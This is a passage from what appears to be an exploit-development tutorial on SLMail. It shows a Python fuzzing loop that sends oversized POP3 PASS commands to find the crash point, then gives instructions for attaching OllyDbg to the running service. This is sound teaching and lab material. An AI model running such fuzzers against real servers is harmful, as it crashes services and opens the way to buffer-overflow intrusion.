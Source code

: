         # Send PASS command with 'A' times the value of the counter variable (starts at 1000)
        s.send(b'PASS ' + b'A' * counter + b'\r\n')
        data = s.recv(1024)
        print(data)

        # Close connection
        s.close()

        # Sleep 2 seconds and add 100 to the counter variable
        time.sleep(2)
        counter += 100

        # Print the buffersize we've sent - this is important because we want to know at how many bytes the application will crash
        print("[+] Buffersize {}".format(counter))  
{{< / highlight >}}

Before we can start using our script, let's attach (File -> Attach) "OllyDbg" (run it as administrator) to the "SLMail" process and hit the "run" button.

![ollydbg-attach](ollydbg-attach.png)
